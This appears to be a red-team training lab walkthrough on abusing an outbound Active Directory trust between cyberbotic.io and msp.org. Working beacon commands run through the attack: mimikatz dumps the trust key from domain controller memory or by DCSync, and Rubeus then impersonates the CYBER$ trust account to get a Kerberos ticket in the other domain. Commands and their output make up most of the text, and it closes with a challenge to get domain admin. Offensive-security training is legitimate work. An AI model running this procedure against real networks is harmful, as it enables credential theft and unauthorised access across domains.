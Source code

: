 Remember that if Domain A trusts Domain B, users in Domain B can access resources in Domain A; but users in Domain A should not be able to access resources in Domain B.  If we're in Domain A, then it's by design that we should not be able to access Domain B.  An outbound trust exists between cyberbotic.io and msp.org.  The direction of trust is such that cyberbotic.io trusts msp.org (so users of msp.org can access resources in cyberbotic.io).

  Because DEV has a trust with CYBER, we can query the trusts that it has by adding the `-Domain` parameter.
```
beacon> getuid
[*] You are DEV\bfarmer

beacon> powershell Get-DomainTrust -Domain cyberbotic.io

SourceName      : cyberbotic.io
TargetName      : msp.org
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FILTER_SIDS
TrustDirection  : Outbound
WhenCreated     : 8/16/2022 9:49:17 AM
WhenChanged     : 8/16/2022 9:49:17 AM
```
  

We can still partially exploit this trust and obtain "domain user" access from CYBER to MSP by leveraging the shared credential for the trust.  Both domains in a trust relationship store a shared password (which is automatically changed every 30 days) in a Trusted Domain Object (TDO).  These objects are stored in the system container and can be read via LDAP.  Here we see that the DC in CYBER has two TDOs for its trusts with DEV and MSP.
```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(objectCategory=trustedDomain)" --domain cyberbotic.io --attributes distinguishedName,name,flatName,trustDirection

[*] TOTAL NUMBER OF SEARCH RESULTS: 2
	[+] distinguishedName : CN=dev.cyberbotic.io,CN=System,DC=cyberbotic,DC=io
	[+] name              : dev.cyberbotic.io
	[+] flatName          : DEV
	[+] trustDirection    : 3

	[+] distinguishedName : CN=msp.org,CN=System,DC=cyberbotic,DC=io
	[+] name              : msp.org
	[+] flatName          : MSP
	[+] trustDirection    : 2
```
  

There are two options for obtaining the key material.  One is to move laterally to the DC itself and dump from memory.
```
beacon> run hostname
dc-1

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> mimikatz lsadump::trust /patch

Domain: MSP.ORG (MSP / S-1-5-21-616357355-3455548143-339820157)
 [  In ] CYBERBOTIC.IO -> MSP.ORG

 [ Out ] MSP.ORG -> CYBERBOTIC.IO
    * 8/16/2022 9:49:17 AM - CLEAR   - 93 8e aa 1f 5f 6e 2a cc 51 7d d4 a8 07 f2 f0 2c a3 e0 20 3b 24 32 68 58 0d f8 ad cc
	* aes256_hmac       5db44be4317433d5ab1d3dea5925126d295d3e21c9682bca7fef76bc5a878f30
	* aes128_hmac       9851d2d80411e6d40122005d1c361579
	* rc4_hmac_nt       f3fc2312d9d1f80b78e67d55d41ad496

 [ In-1] CYBERBOTIC.IO -> MSP.ORG

 [Out-1] MSP.ORG -> CYBERBOTIC.IO
    * 8/16/2022 9:49:17 AM - CLEAR   - 93 8e aa 1f 5f 6e 2a cc 51 7d d4 a8 07 f2 f0 2c a3 e0 20 3b 24 32 68 58 0d f8 ad cc
	* aes256_hmac       5db44be4317433d5ab1d3dea5925126d295d3e21c9682bca7fef76bc5a878f30
	* aes128_hmac       9851d2d80411e6d40122005d1c361579
	* rc4_hmac_nt       f3fc2312d9d1f80b78e67d55d41ad496
```

  This performs memory patching, which is very risky, particularly on a domain controller.

  

The second is to use DCSync with the TDO's GUID.
```
beacon> powershell Get-DomainObject -Identity "CN=msp.org,CN=System,DC=cyberbotic,DC=io" | select objectGuid

objectguid                          
----------                          
b93d2e36-48df-46bf-89d5-2fc22c139b43

beacon> mimikatz @lsadump::dcsync /domain:cyberbotic.io /guid:{b93d2e36-48df-46bf-89d5-2fc22c139b43}

[DC] 'cyberbotic.io' will be the domain
[DC] 'dc-1.cyberbotic.io' will be the DC server
[DC] Object with GUID '{b93d2e36-48df-46bf-89d5-2fc22c139b43}'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : msp.org

** TRUSTED DOMAIN - Antisocial **

Partner              : msp.org
 [ Out ] MSP.ORG -> CYBERBOTIC.IO
    * 8/16/2022 9:49:17 AM - CLEAR   - 93 8e aa 1f 5f 6e 2a cc 51 7d d4 a8 07 f2 f0 2c a3 e0 20 3b 24 32 68 58 0d f8 ad cc
	* aes256_hmac       5db44be4317433d5ab1d3dea5925126d295d3e21c9682bca7fef76bc5a878f30
	* aes128_hmac       9851d2d80411e6d40122005d1c361579
	* rc4_hmac_nt       f3fc2312d9d1f80b78e67d55d41ad496

 [Out-1] MSP.ORG -> CYBERBOTIC.IO
    * 8/16/2022 9:49:17 AM - CLEAR   - 93 8e aa 1f 5f 6e 2a cc 51 7d d4 a8 07 f2 f0 2c a3 e0 20 3b 24 32 68 58 0d f8 ad cc
	* aes256_hmac       5db44be4317433d5ab1d3dea5925126d295d3e21c9682bca7fef76bc5a878f30
	* aes128_hmac       9851d2d80411e6d40122005d1c361579
	* rc4_hmac_nt       f3fc2312d9d1f80b78e67d55d41ad496
```
  

`[Out]` and `[Out-1]` are the "new" and "old" passwords respectively (they're the same here because 30 days hasn't elapsed since the creation of the trust).  In most cases, the current [Out] key is the one you want.  In addition, there is also a "trust account" which is created in the "trusted" domain, with the name of the "trusting" domain.  For instance, if we get all the user accounts in the DEV domain, we'll see _CYBER$_ and _STUDIO$_, which are the trust accounts for those respective domain trusts.
```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(objectCategory=user)"

[*] TOTAL NUMBER OF SEARCH RESULTS: 11

        [...]
	[+] cn : CYBER$
	[+] cn : STUDIO$
```
  

This means that the MSP domain will have a trust account called CYBER$, even though we can't enumerate across the trust to confirm it.  This is the account we must impersonate to request Kerberos tickets across the trust.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:CYBER$ /domain:msp.org /rc4:f3fc2312d9d1f80b78e67d55d41ad496 /nowrap

[*] Action: Ask TGT

[*] Using rc4_hmac hash: f3fc2312d9d1f80b78e67d55d41ad496
[*] Building AS-REQ (w/ preauth) for: 'msp.org\CYBER$'
[*] Using domain controller: 10.10.151.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFGD[...]Aub3Jn

  ServiceName              :  krbtgt/msp.org
  ServiceRealm             :  MSP.ORG
  UserName                 :  CYBER$
  UserRealm                :  MSP.ORG
  StartTime                :  9/12/2022 2:03:12 PM
  EndTime                  :  9/13/2022 12:03:12 AM
  RenewTill                :  9/19/2022 2:03:12 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  Uf2X2f65qJYeHow3kfHG2w==
  ASREP (key)              :  F3FC2312D9D1F80B78E67D55D41AD496
```

  Remember that RC4 tickets are used by default across trusts.

  

This TGT can now be used to interact with the domain.
```
beacon> run klist

Current LogonId is 0:0x537833

Cached Tickets: (1)

#0>	Client: CYBER$ @ MSP.ORG
	Server: krbtgt/msp.org @ MSP.ORG
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96

beacon> powershell Get-Domain -Domain msp.org

Forest                  : msp.org
DomainControllers       : {ad.msp.org}
Children                : {}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  : 
PdcRoleOwner            : ad.msp.org
RidRoleOwner            : ad.msp.org
InfrastructureRoleOwner : ad.msp.org
Name                    : msp.org
```
  

This account is obviously not a domain admin, but there are multiple abuse primitives that can now be performed across the trust to elevate privileges - including kerberoasting, ASREPRoasting, RBCD, and vulnerable certificate templates.

  As a challenge, try and find a way to get DA in this forest.